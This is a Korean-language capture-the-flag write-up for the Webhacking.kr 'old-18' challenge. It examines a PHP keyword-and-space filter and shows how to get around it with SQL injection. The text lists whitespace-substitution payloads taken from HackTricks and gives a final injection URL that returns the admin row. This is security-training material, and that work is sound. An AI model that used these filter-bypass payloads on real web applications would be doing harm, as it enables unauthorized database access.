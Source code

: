 ```yaml
---
title: ["[Webhacking.kr] old-18"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, php, mysql]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-18/recon.png)

`result[id]`가 `admin`이 되어야 한다.

## Analysis

`preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])`  
SQL 인젝션을 방지하기 위한 필터링이다.  
이렇게 SQL 구문이 필터링되어 있으면, 대부분 SQLi 문제라고 보면 된다.  
` `, `/`, `(`, `)`, `|`, `&`, `select`, `from`, `0x`를 필터링하며, 대소문자 구분을 하지 않는다.  

`select id from chall18 where id='guest' and no=$_GET[no]`  
타겟 쿼리는 다음과 같으므로,  
`select id from chall18 where id='guest' and no=2 or no=2`로 쿼리를 바꾸면 된다.  

하지만, ` `(%20)이 필터링 된다.  

[No Space (%20) - bypass using whitespace alternatives](https://book.hacktricks.xyz/pentesting-web/sql-injection)  
```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## Payload

` `  대신에 `%09`를 써보자.  

```
/?no=2%09or%09no=2
```